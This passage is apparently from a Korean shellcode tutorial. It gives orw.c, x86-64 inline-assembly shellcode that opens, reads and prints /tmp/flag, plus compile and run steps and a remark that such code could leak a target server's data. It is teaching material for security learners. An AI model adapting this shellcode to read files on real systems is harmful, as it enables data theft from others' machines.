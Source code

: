 --------------------------

<code>
// File name: orw.c
// Compile: gcc -o orw orw.c -masm=intel

__asm__(
    ".global run_sh\n"
    "run_sh:\n"

    "push 0x67\n"
    "mov rax, 0x616c662f706d742f \n"
    "push rax\n"
    "mov rdi, rsp    # rdi = '/tmp/flag'\n"
    "xor rsi, rsi    # rsi = 0 ; RD_ONLY\n"
    "xor rdx, rdx    # rdx = 0\n"
    "mov rax, 2      # rax = 2 ; syscall_open\n"
    "syscall         # open('/tmp/flag', RD_ONLY, NULL)\n"
    "\n"
    "mov rdi, rax      # rdi = fd\n"
    "mov rsi, rsp\n"
    "sub rsi, 0x30     # rsi = rsp-0x30 ; buf\n"
    "mov rdx, 0x30     # rdx = 0x30     ; len\n"
    "mov rax, 0x0      # rax = 0        ; syscall_read\n"
    "syscall           # read(fd, buf, 0x30)\n"
    "\n"
    "mov rdi, 1        # rdi = 1 ; fd = stdout\n"
    "mov rax, 0x1      # rax = 1 ; syscall_write\n"
    "syscall           # write(fd, buf, 0x30)\n"
    "\n"
    "xor rdi, rdi      # rdi = 0\n"
    "mov rax, 0x3c	   # rax = sys_exit\n"
    "syscall		   # exit(0)");

void run_sh();

int main() {
    run_sh();
}
</code>

### 실행
쉘코드가 실제로 작동함을 확인하기 위해 /tmp/flag 파일을 생성.
echo 'flag{this_is_open_read_write_shellcode!}' > /tmp/flag

orw.c를 컴파일하고, 실행.

gcc -o orw orw.c -masm=intel
./orw
flag{this_is_open_read_write_shellcode!}

쉘코드가 성공적으로 실행되어 우리가 저장한 문자열이 출력되는 것을 확인할 수 있다. 만약 공격의 대상이 되는 시스템에서 이 쉘코드를 실행할 수 있다면, 상대 서버의 자료를 유출해낼 수 있을 것이다.

그리고 /tmp/flag 의 내용 말고도 몇 자의 알 수 없는 문자열들이 출력되는 경우가 있다. 디버깅을 통해 쉘코드의 동작을 살펴보고, 알 수 없는 값들이 출력되는 원인을 알아보도록 하자.
